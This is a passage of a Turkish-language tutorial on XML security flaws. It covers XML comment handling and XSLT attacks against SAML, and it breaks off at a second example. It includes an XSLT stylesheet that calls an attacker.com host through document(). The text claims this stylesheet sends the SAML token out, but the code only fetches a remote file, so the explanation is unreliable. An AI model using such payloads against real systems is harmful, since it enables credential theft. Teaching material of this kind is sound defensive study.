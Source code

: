 ```
<order>
  <id>12345</id>
  <status>pending</status>
  <!-- Delivery date postponed -->
  <!-- <status>delivered</status> -->
</order>
```
Bu örnekte, siparişin durumunu belirten `<status>` öğesi yorum içine alınmıştır. Yorumlar, siparişin teslim edildiğini belirten durumu geçersiz kılabilir. Yetersiz bir XML yorum işleme mekanizması, yorumları işlemeyerek saldırganın siparişin durumunu değiştirmesine izin verebilir.

## XSLT (eXtensible Stylesheet Transformation Language)

SAML (Security Assertion Markup Language) uygulamalarına karşı kullanılabilecek bir güvenlik zafiyetini ifade etmektedir.

XSLT, XML tabanlı bir dönüşüm dilidir ve XML belgelerini farklı bir formata dönüştürmek veya içeriğini değiştirmek için kullanılır. SAML, kimlik doğrulama ve yetkilendirme bilgilerini paylaşmak için kullanılan bir standarttır. SAML tabanlı bir uygulama, kimlik sağlayıcıya (IdP) kullanıcı kimlik bilgilerini gönderir ve IdP, kullanıcının kimlik doğrulamasını gerçekleştirir ve uygulamaya kimlik bilgilerini (SAML token) sağlar.

XSLT saldırısı, SAML tabanlı uygulamaların güvenlik açığını sömürerek kimlik bilgilerini ele geçirmeye veya yetkilendirme mekanizmasını atlamaya yönelik bir saldırıdır. Aşağıda, bu zafiyeti daha iyi anlamanızı sağlamak için gerçek hayata yakın örnekler ve kodlar bulunmaktadır:

- Örnek 1: SAML Kimlik Bilgilerinin Ele Geçirilmesi

```
<saml:Assertion xmlns:saml="urn:oasis:names:tc:SAML:2.0:assertion">
  <saml:AttributeStatement>
    <saml:Attribute Name="username" Value="JohnDoe"/>
    <saml:Attribute Name="role" Value="admin"/>
  </saml:AttributeStatement>
</saml:Assertion>

```
Saldırgan, XSLT saldırısını kullanarak SAML token'ını ele geçirmeye çalışır. Aşağıdaki XSLT kodu, SAML token'ının tamamını saldırganın kontrol ettiği bir sunucuya gönderir:

```
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" version="1.0">
  <xsl:output method="text"/>
  
  <xsl:template match="/">
    <xsl:value-of select="document('http://attacker.com/token.xml')"/>
  </xsl:template>
</xsl:stylesheet>
```
Saldırgan, XSLT dönüşüm işlemi sırasında document() fonksiyonunu kullanarak uzaktaki bir kaynaktan XML'i alır. Bu şekilde, saldırganın kontrolündeki sunucuda SAML token'ı ele geçirilmiş olur.

- Örnek 2: Yetkilendirme Mekanizmasının Atlama
